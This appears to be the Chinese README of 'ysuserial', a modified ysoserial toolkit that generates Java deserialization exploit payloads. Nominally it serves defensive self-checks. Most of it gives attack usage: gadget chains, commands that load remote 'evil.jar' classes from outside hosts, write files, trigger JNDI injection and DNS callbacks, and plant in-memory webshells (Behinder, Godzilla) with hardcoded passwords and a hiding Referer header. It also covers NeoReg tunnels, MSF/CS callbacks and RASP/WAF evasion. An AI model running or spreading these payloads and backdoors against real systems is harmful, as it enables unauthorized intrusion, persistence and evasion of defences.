



# [  ysuserial  ]


某行动在即，为助力在一线防守的伙伴，特发此自用项目，帮助伙伴们更高效、更快速的针对 Java 反序列化漏洞进行自检及安全修复。

本项目为 ysoserial [su18] 专版，取名为 ysuserial ，在原项目 [ysoserial](https://github.com/frohoff/ysoserial) 基础上魔改而来，主要有以下新添加功能：

1. 基础链版本的覆盖：原版反序列化链可能仅限于某几个版本，本项目添加了如 CB/C3P0 等链的低版本，可一键 getshell 的版本覆盖更广；
2. 利用链的扩充和丰富：在原版基础上添加了多条利用链，扩展利用方式，更够在依赖不确定、利用方式有限制的情况扩展更多的攻击路径；
3. 利用方式的填充：原版的利用链的利用方式仅使用了 Runtime 执行系统命令，本项目添加了多种利用方式，并支持执行自定义任意代码；
4. 利用链探测：本项目在 URLDNS 中添加了利用链的探测，在攻击中不再盲目乱打，先通过 DNSLOG 检测类名，再执行攻击；
5. 内存马：本项目在利用时，对于部分链支持了一键打入 Spring/Tomcat/Jetty/JBoss/Resin/Websphere 内存马功能，内存马支持命令执行、冰蝎、哥斯拉三种利用方式；并支持 Tomcat 回显命令执行、Neoreg 流量隧道内存马；
6. 防御绕过：在部分系统中使用了 WAF/RASP 等防御模式，本项目去除大多数原版特征，并在执行恶意动作时使用了多种能够绕过 RASP 的执行方式，绕过防护；
7. MSF/CS 上线：配合远程 Jar 包一键上线 MSF/CS 的功能，集成一体，快人一步
8. 使用去除编译类字节码行号、Javassist 动态添加父类等多种技术缩小反序列化 payload。

项目支持利用链展示：


```text
$ java -jar ysuserial-0.3-su18-all.jar
            _.-^^---....,,--
       _--                  --_
      <                        >)
      |       Y Su Serial ?     |
       \._                   _./
          ```--. . , ; .--'''
                | |   |
             .-=||  | |=-.
             `-=#$%&%$#=-'
                | ;  :|
       _____.,-#%&$@%#&#~,._____
     _____.,[ 暖风熏得游人醉 ],._____
     _____.,[ 直把杭州作汴州 ],._____
[root]#~  A Mind-Blowing Tool Collected By [ su18@javaweb.org ]
[root]#~  Shout Out to Yzmm / Shxjia / Y4er / N1nty / C0ny1 / Phith0n / Kezibei
[root]#~  AND OF COURSE TO THE All MIGHTY @frohoff  
[root]#~  Usage: java -jar ysuserial-0.3-su18-all.jar [payload] '[command]'
[root]#~  Available payload types:
Jun 19, 2022 11:54:53 PM org.reflections.Reflections scan
INFO: Reflections took 195 ms to scan 1 urls, producing 26 keys and 230 values 
     Payload                  Authors                                Dependencies                                                                                                                                                                                        
     -------                  -------                                ------------                                                                                                                                                                                        
     AspectJWeaver            @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2                                                                                                                                                      
     BeanShell1               @pwntester, @cschneider4711            bsh:2.0b5                                                                                                                                                                                           
     C3P0                     @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11                                                                                                                                                           
     C3P092                   @mbechler                              c3p0:0.9.2-pre2-RELEASE ~ 0.9.5-pre8, mchange-commons-java:0.2.11                                                                                                                                   
     Click1                   @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0                                                                                                                                                         
     Clojure                  @JackOfMostTrades                      clojure:1.8.0                                                                                                                                                                                       
     CommonsBeanutils1        @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2                                                                                                                               
     CommonsBeanutils1183NOCC                                        commons-beanutils:1.8.3                                                                                                                                                                             
     CommonsBeanutils2                                               commons-beanutils:1.9.2                                                                                                                                                                             
     CommonsBeanutils2NOCC                                           commons-beanutils:1.8.3, commons-logging:1.2                                                                                                                                                        
     CommonsBeanutils3                                               commons-beanutils:1.9.2, commons-collections:3.1                                                                                                                                                    
     CommonsBeanutils3183                                            commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2                                                                                                                               
     CommonsCollections1      @frohoff                               commons-collections:3.1                                                                                                                                                                             
     CommonsCollections2      @frohoff                               commons-collections4:4.0                                                                                                                                                                            
     CommonsCollections3      @frohoff                               commons-collections:3.1                                                                                                                                                                             
     CommonsCollections4      @frohoff                               commons-collections4:4.0                                                                                                                                                                            
     CommonsCollections5      @matthias_kaiser, @jasinner            commons-collections:3.1                                                                                                                                                                             
     CommonsCollections6      @matthias_kaiser                       commons-collections:3.1                                                                                                                                                                             
     CommonsCollections6Lite  @matthias_kaiser                       commons-collections:3.1                                                                                                                                                                             
     CommonsCollections7      @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1                                                                                                                                                                             
     CommonsCollections8      @navalorenzo                           commons-collections4:4.0                                                                                                                                                                            
     CommonsCollections9                                             commons-collections:3.2.1                                                                                                                                                                           
     FileUpload1              @mbechler                              commons-fileupload:1.3.1, commons-io:2.4                                                                                                                                                            
     Groovy1                  @frohoff                               groovy:2.3.9                                                                                                                                                                                        
     Hibernate1               @mbechler                                                                                                                                                                                                                                  
     Hibernate2               @mbechler                                                                                                                                                                                                                                  
     JBossInterceptors1       @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                            
     JRE8u20                  @frohoff                                                                                                                                                                                                                                   
     JRMPClient               @mbechler                                                                                                                                                                                                                                  
     JRMPClient_Activator     @mbechler                                                                                                                                                                                                                                  
     JRMPClient_Obj           @mbechler                                                                                                                                                                                                                                  
     JRMPListener             @mbechler                                                                                                                                                                                                                                  
     JSON1                    @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1           @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                                        
     Jdk7u21                  @frohoff                                                                                                                                                                                                                                   
     Jython1                  @pwntester, @cschneider4711            jython-standalone:2.5.2                                                                                                                                                                             
     MozillaRhino1            @matthias_kaiser                       js:1.7R2                                                                                                                                                                                            
     MozillaRhino2            @_tint0                                js:1.7R2                                                                                                                                                                                            
     Myfaces1                 @mbechler                                                                                                                                                                                                                                  
     Myfaces2                 @mbechler                                                                                                                                                                                                                                  
     ROME                     @mbechler                              rome:1.0                                                                                                                                                                                            
     Spring1                  @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE                                                                                                                                               
     Spring2                  @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2                                                                                                           
     Spring3                                                         spring-tx:5.2.3.RELEASE, spring-context:5.2.3.RELEASE, javax.transaction-api:1.2                                                                                                                    
     URLDNS                   @gebl                                                                                                                                                                                                                                      
     Vaadin1                  @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14                                                                                                                                                          
     Wicket1                  @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4  
```


# 利用方式

在原版的利用方式中，对于使用 TemplatesImpl 的利用方式，仅使用了单一的 `java.lang.Runtime.getRuntime().exec()` 执行任意命令；对于使用 ChainedTransformer 的利用方式，也是仅 chain 了一个 Runtime exec，再漏洞利用上过于局限且单一，因此本项目在原版项目基础上扩展了不同的利用方式以供在实战环境中根据情况选择。

## 针对 ChainedTransformer

对于本项目中的 CommonsCollections1、CommonsCollections5、CommonsCollections6、CommonsCollections6Lite、CommonsCollections7、CommonsCollections9，均为使用了 ChainedTransformer 进行链式反射调用的利用方式，针对 CC 3.1-3.2.1 的依赖。


本项目为其拓展了除了 Runtime 执行命令意外的多种利用方式，具体如下：

- TS ：Thread Sleep - 通过 `Thread.sleep()` 的方式来检查是否存在反序列化漏洞，使用命令：`TS-10`
- RC ：Remote Call - 通过 `URLClassLoader.loadClass()` 来调用远程恶意类并初始化，使用命令：`RC-http://xxxx.com/evil.jar#EvilClass`
- WF ：Write File - 通过 `FileOutputStream.write()` 来写入文件，使用命令：`WF-/tmp/shell#d2hvYW1p`
- PB ：ProcessBuilder 通过 `ProcessBuilder.start()` 来执行系统命令，使用命令 `PB-lin-d2hvYW1p` / `PB-win-d2hvYW1p` 分别在不同操作系统执行命令
- SE ：ScriptEngine - 通过 `ScriptEngineManager.getEngineByName('js').eval()` 来解析 JS 代码调用 Runtime 执行命令，使用命令 `SE-d2hvYW1`
- DL ：DNS LOG - 通过 `InetAddress.getAllByName()` 来触发 DNS 解析，使用命令 `DL-xxxdnslog.cn`
- HL ：HTTP LOG - 通过 `URL.getContent()` 来触发 HTTP LOG，使用命令 `HL-http://xxx.com`
- BC ：BCEL Classloader - 通过 `..bcel...ClassLoader.loadClass().newInstance()` 来加载 BCEL 类字节码，使用命令 `BC-$BCEL$xxx`
- JD ：JNDI Lookup - 通过 `InitialContext.lookup()` 来触发 JNDI 注入，使用命令 `JD-ldap://xxx/xx`
- 其他：普通命令执行 - 通过 `Runtime.getRuntime().exec()` 执行系统命令，使用命令 `whoami`


目前只针对 CC 3.1-3.2.1 使用了 ChainedTransformer，对于 CC 4.0 还是使用了 TemplatesImpl 的传统利用方式。


这里需要注意的是，使用 PB 执行系统命令、WF 写入文件的内容、SE 执行命令时，为了防止传参错误，需要<font color="purple">对传入的命令使用 base64 编码</font>。


**命令执行示例**：

```shell
java -jar ysuserial-0.3-su18-all.jar CommonsCollections1 PB-lin-b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA==
```


效果图：



**DNSLOG示例**：

```shell
java -jar ysuserial-0.3-su18-all.jar CommonsCollections1 'DL-xxx.org'
```


效果图：


**脚本引擎解析 JS 代码示例**：

```shell
java -jar ysuserial-0.3-su18-all.jar CommonsCollections1 'SE-b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA=='
```


效果图：


**文件写入示例**：

```shell
java -jar ysuserial-0.3-su18-all.jar CommonsCollections1 'WF-/tmp/1.jsp#PCVAcGFnZSBwYWdlR.....'
```


效果图：


**触发 JNDI 查询注入示例**：

```shell
java -jar ysuserial-0.3-su18-all.jar CommonsCollections1 'JD-ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA=='
```


效果图：


**普通命令执行示例**：

```shell
java -jar ysuserial-0.3-su18-all.jar CommonsCollections1 'open -a Calculator.app'
```


效果图：




## 针对 TemplatesImpl

针对本项目中的 Click1、CommonsBeanutils1、CommonsBeanutils2、CommonsBeanutils1183NOCC、CommonsBeanutils2183NOCC、CommonsCollections2、CommonsCollections3、CommonsCollections4、CommonsCollections8、Hibernate1、JavassistWeld1、JBossInterceptors1、Jdk7u21、JRE8u20、JSON1、MozillaRhino1、MozillaRhino2、ROME、Spring1、Spring2、Vaadin1，均为使用 TemplatesImpl 加载恶意的类字节码的利用方式，原版仅使用了 Runtime 的命令执行方式，这里对其进行深度的扩展，并植入了多种内存马的功能。


### 扩展攻击-内存马及回显


如果使用这些利用链进行攻击，本项目内置了一些高级扩展用法，命令均使用 `EX-` 开头，包括内存马、 NeoReg 流量隧道、命令执行回显等，具体如下：

Tomcat 命令回显：
- 命令 `EX-TomcatEcho`：通过在线程中遍历获取当前 request 来执行命令并回显

Tomcat Listener NeoReg 流量隧道：
- 命令 `EX-TLNeoRegFromThread`：通过线程类加载器获取指定上下文向系统内植入 NeoReg 流量隧道型内存马

内存马：
- 命令 `EX-MS-SpringInterceptorMS`：向系统内植入 Spring 拦截器类型的内存马
- 命令 `EX-MS-TFMSFromJMX`：利用 JMX MBeans 向系统内植入 Tomcat Filter 型内存马
- 命令 `EX-MS-TFMSFromThread`：通过线程类加载器获取指定上下文向系统内植入 Tomcat Filter 型内存马
- 命令 `EX-MS-TLMSFromThread`：通过线程类加载器获取指定上下文向系统内植入 Tomcat Listener 型内存马
- 命令 `EX-MS-TSMSFromJMX`：利用 JMX MBeans 向系统内植入 Tomcat Servlet 型内存马
- 命令 `EX-MS-TSMSFromThread`：通过线程类加载器获取指定上下文向系统内植入 Tomcat Servlet 型内存马
- 命令 `EX-MS-JBFMSFromContext`：通过全局上下文向系统内植入 JBoss/Wildfly Filter 型内存马
- 命令 `EX-MS-JBSMSFromContext`：通过全局上下文向系统内植入 JBoss/Wildfly Servlet 型内存马
- 命令 `EX-MS-JFMSFromJMX`：利用 JMX MBeans 向系统内植入 Jetty Filter 型内存马
- 命令 `EX-MS-JSMSFromJMX`：利用 JMX MBeans 向系统内植入 Jetty Servlet 型内存马
- 命令 `EX-MS-RFMSFromThread`：通过线程类加载器获取指定上下文系统内植入 Resin Filter 型内存马
- 命令 `EX-MS-RSMSFromThread`：通过线程类加载器获取指定上下文系统内植入 Resin Servlet 型内存马
- 命令 `EX-MS-WSFMSFromThread`：通过线程类加载器获取指定上下文系统内植入 Websphere Filter 型内存马

目前支持的直打内存马的类型包括 Tomcat、Jetty、JBoss/Wildfly、Websphere、Resin、Spring，还有以下几个暂未支持：
- GlassFish 内嵌了 Tomcat，实现类似，稍微改改即可；
- Apusic ≈ GlassFish，改包名；
- BES ≈ Tomcat，改包名；
- InforSuite ≈ Tomcat，改包名；
- Weblogic 还未实现，后续版本随着 Weblogic 的反序列化 payload 一起添加。

本工具支持的全部内存马经过测试可用，但实际受到中间件版本的限制，对于内存马的相关测试，可以参考项目 [https://github.com/su18/MemoryShell](https://github.com/su18/MemoryShell)

这里就不一一测试截图了，欢迎大家进行测试，如果问题请按文档最后的联系方式联系我。

### 任意自定义代码


如果你不想使用本项目中提供的恶意逻辑，也不想执行命令，可以通过自定义代码的形式，自定义代码将会在目标服务器通过 ClassLoader 进行加载并实例化。命令使用 `LF-` 开头，后面跟指定自定义类字节码文件的绝对路径。


示例：

```shell
java -jar ysuserial-0.3-su18-all.jar CommonsCollections3 LF-/tmp/evil.class
```


效果图：


### 普通命令执行


最后是普通的执行命令，直接输入待执行的命令即可，程序将会使用 Unsafe 反射调用 forkAndExec 执行系统命令。


**普通命令执行示例**：

```shell
java -jar ysuserial-0.3-su18-all.jar CommonsBeanutils2 'open -a Calculator.app'
```


效果图：


## URLDNS 探测目标类

为了解决有反序列化利用点但是无链可用的状态，本项目提供了基于 URLDNS 探测目标类的功能。这条链会根据目标环境中不同的类是否存在来判断系统环境、依赖版本，主要包含如下表格中的内容：


| DNSLOG 关键字                               | 对应链                  | 关键类                                                       | 备注                                                         |
| ------------------------------------------- | ----------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| cc31or321<br />cc322                        | CommonsCollections13567 | org.apache.commons.collections.functors.ChainedTransformer<br />org.apache.commons.collections.ExtendedProperties$1 | CommonsCollections1/3/5/6/7<br />需要<=3.2.1版本             |
| cc40<br />cc41                              | CommonsCollections24    | org.apache.commons.collections4.functors.ChainedTransformer<br />org.apache.commons.collections4.FluentIterable | CommonsCollections2/4链<br />需要4-4.0版本                   |
| cb17<br />cb18x<br />cb19x                  | CommonsBeanutils2       | org.apache.commons.beanutils.MappedPropertyDescriptor\$1<br />org.apache.commons.beanutils.DynaBeanMapDecorator\$MapEntry<br />org.apache.commons.beanutils.BeanIntrospectionData | 1.7x-1.8x为-3490850999041592962<br />1.9x为-2044202215314119608 |
| c3p092x<br />c3p095x                        | C3P0                    | com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase<br />com.mchange.v2.c3p0.test.AlwaysFailDataSource | 0.9.2pre2-0.9.5pre8为7387108436934414104<br />0.9.5pre9-0.9.5.5为7387108436934414104 |
| ajw                                         | AspectJWeaver           | org.aspectj.weaver.tools.cache.SimpleCache                   | AspectJWeaver,需要cc31                                       |
| bsh20b4<br />bsh20b5<br />bsh20b6           | bsh                     | bsh.CollectionManager\$1<br />bsh.engine.BshScriptEngine<br />bsh.collection.CollectionIterator\$1 | 2.0b4为4949939576606791809<br />2.0b5为4041428789013517368<br />2.0.b6无法反序列化 |
| groovy1702311<br />groovy24x<br />groovy244 | Groovy                  | org.codehaus.groovy.reflection.ClassInfo\$ClassInfoSet<br />groovy.lang.Tuple2<br />org.codehaus.groovy.runtime.dgm\$1170 | 2.4.x为-8137949907733646644<br />2.3.x为1228988487386910280  |
| becl                                        | Becl                    | com.sun.org.apache.bcel.internal.util.ClassLoader            | JDK<8u251                                                    |
| Jdk7u21                                     | Jdk7u21                 | com.sun.corba.se.impl.orbutil.ORBClassLoader                 | JDK<=7u21                                                    |
| JRE8u20                                     | JRE8u20                 | javax.swing.plaf.metal.MetalFileChooserUI\$DirectoryComboBoxModel\$1 | 7u25<=JDK<=8u20<br />这个检测不完美,8u25版本以及JDK<=7u21会误报<br />可综合Jdk7u21来看 |
| linux<br />windows                          | winlinux                | sun.awt.X11.AwtGraphicsConfigData<br />sun.awt.windows.WButtonPeer | windows/linux版本判断                                        |
|                                             | all                     |                                                              | 全部检测                                                     |

本项目参考了 kezibei 师傅的 URLDNS 项目，实际情况可能有如下几种情况导致问题：
- 反序列时遇到黑名单，可能导致后面的类的 dnslog 出不来；
- 反序列化流程中由于种种情况报错可能导致出不来。

因此这里还是提供了 all/common/指定类 三种探测方式：
- all：探测全部的类；
- common：探测不常在黑名单中的 CommonsBeanutils2/C3P0/AspectJWeaver/bsh/winlinux；
- 指定类：使用对应链中的关键字 CommonsCollections24:xxxx.dns.log 。

示例：`all:xxxxxx.dns.log`

```shell
java -jar ysuserial-0.3-su18-all.jar URLDNS 'all:xxxxxx.dns.log'
```


效果图：


## 其他利用链的拓展

对于 BeanShell1 及 Clojure 这两个基于脚本语言解析的漏利用方式。

本项目为这两条利用链拓展了除了 Runtime 执行命令意外的多种利用方式，具体如下：

- TS ：Thread Sleep - 通过 `Thread.sleep()` 的方式来检查是否存在反序列化漏洞，使用命令：`TS-10`
- RC ：Remote Call - 通过 `URLClassLoader.loadClass()` 来调用远程恶意类并初始化，使用命令：`RC-http://xxxx.com/evil.jar#EvilClass`
- WF ：Write File - 通过 `FileOutputStream.write()` 来写入文件，使用命令：`WF-/tmp/shell#123`
- 其他：普通命令执行 - 通过 `ProcessBuilder().start()` 执行系统命令，使用命令 `whoami`


与之前的扩展类似，这里也不放截图了。

## MSF/CS 上线

使用 MSF 的上线载荷配合远程 Jar 包调用完成 MSF 上线，后续可转 CS。

**示例**：




# 内存马的使用

针对项目中一键打入的各种内存马，这里提供了通用的利用方式。

## 命令执行及后门类

对于 SpringInterceptorMS、TFMSFromJMX、TFMSFromThread、TLMSFromJMX、TLMSFromThread、TSMSFromJMX、TSMSFromThread 注入内存马的利用方式，此类内存马都同时集成了三种功能：命令执行及回显、冰蝎、哥斯拉。

首先为了隐藏内存马，通过逻辑进行了判断，需要在请求 Header 中添加 `Referer: https://su18.org/`。

其次将根据 header 中的 `X-SSRF-TOKEN` 的值执行不同的逻辑：

1. 如果 `X-SSRF-TOKEN` 的值是 ce，则为 <font color="orange">命令执行</font> 功能，程序会从 `X-Token-Data` 中读取待执行的命令，并将执行结果进行回显；
   

2. 如果 `X-SSRF-TOKEN` 的值是 bx，则为 <font color="orange">冰蝎 Shell</font> 功能，可使用冰蝎客户端进行连接管理，密码 `su18yyds`；

   

3. 如果 `X-SSRF-TOKEN` 的值是 gz，则为 <font color="orange">哥斯拉 shell</font> 功能，可使用哥斯拉客户端进行连接管理，pass 值设为 `su18`，key 设为 `su18yyds`。

   

## NeoReg 隧道类

对于 TLNeoRegFromThread 注入 NeoReg 的隧道脚本。项目地址：https://github.com/L-codes/Neo-reGeorg

可以使用类似如下命令建立隧道连接：

```shell
python neoreg.py -k su18 -u http://xxx.com/ -H 'Referer: https://su18.org/'
```


效果图：


## TomcatEcho

对于 TomcatEcho 是基于在线程组中找到带有指定 Header 头部的请求、执行命令并回显的利用方式。

使用时在 Header 中加入 `X-Token-Data` ，其值为待执行的命令，命令执行结果将回显在 response 中。

效果图：


# 防御的绕过

这部分不涉及使用方式，只是简单的描述一下项目中所使用的绕过方式供大家了解。

## 流量层面

对于冰蝎和哥斯拉，他们自己在流量和Java层都有很多可以提取的特征，这里没有办法去管控，需要各位自行去魔改，其实也并不难。本项目把一些大家实现的比较类似的一些特征进行了去除。

## RASP 层面

对于漏洞执行常使用的 Runtime、URLClassLoader 等，很多 RASP 都进行了 Hook，在攻击时可能会被拦截，这里我使用了一些反射调用 native 方法之类的技术去尝试 RASP 的防御，具体的技术实现就不细说了，感兴趣的朋友可以反编译 jar 包查看相关代码。

这里由于发现还有的不讲武德的防御方式在类加载时进行包名的黑名单的匹配，对例如 rebeyond/metasploit 之类的关键字进行了防御，因此本项目只用了个人的域名前缀包名 `org.su18`，据我了解目前还没有人针对我这个包名进行防御，如果未来被加入了豪华黑名单大礼包，我会更新可以生成自定义包名的版本。


# 参考

本项目参考了若干其他项目，包括但不限于：

- [https://github.com/woodpecker-framework/ysoserial-for-woodpecker](https://github.com/woodpecker-framework/ysoserial-for-woodpecker)
- [https://github.com/Y4er/ysoserial](https://github.com/Y4er/ysoserial)
- [https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)
- [https://github.com/L-codes/Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg)
- [https://github.com/kezibei/Urldns/](https://github.com/kezibei/Urldns/)


有兴趣的伙伴可以自行查看。


# 更新


在可预见的未来内会更新如下功能，敬请期待：

- 加载 CS shellcode（还没学会）；
- 无文件落地 Agent 注入（还没学会）；
- 持续绕过各种防护（我是实验室黑客，实战还没学会）。

或者你有什么其他的想法或需求，可以与我进行联系。


# 提问与交流

本项目全部利用链<font color="red">全部功能</font>以及<font color="red">全部利用链</font>都经过本人本地环境的完整测试。但考虑到实际环境复杂，在实际使用中还可能遇到各种各样的问题，欢迎大家一起测试，提出 ISSUES。

如果在项目使用时遇到任何问题，欢迎添加微信 K_MnO4 （高锰酸钾） ，或邮件 su18@javaweb.org 进行交流。

关于 Java 安全的任意问题也可以与我进行交流，欢迎进入 [JavaSec](https://javasec.org/) 交流群进行交流。


# 免责声明

根据《中华人民共和国网络安全法》第十二条规定：任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益，煽动颠覆国家政权、推翻社会主义制度，煽动分裂国家、破坏国家统一。

本程序应仅用于授权的安全测试与研究目的。任何未经授权的网络攻击行为会被认定为违法犯罪，将会受到法律的严厉制裁。

# 防御与修复

在使用本项目自查后，发现可以进行攻击，下一步该如何对其进行防护与修复呢？

经过实际环境的验证，发现使用 RASP 技术可以最好的进行安全层面的防护，经过完整的测试后，本项目所使用的全部攻击技术都可以被 [灵蜥 — 应用系统攻击自免疫平台](http://www.anbai.com/product_lx.html) RASP 产品完美防护，欢迎大家联系电话 010-61943626 或邮件 marketing@anbai.com 进行咨询和了解。


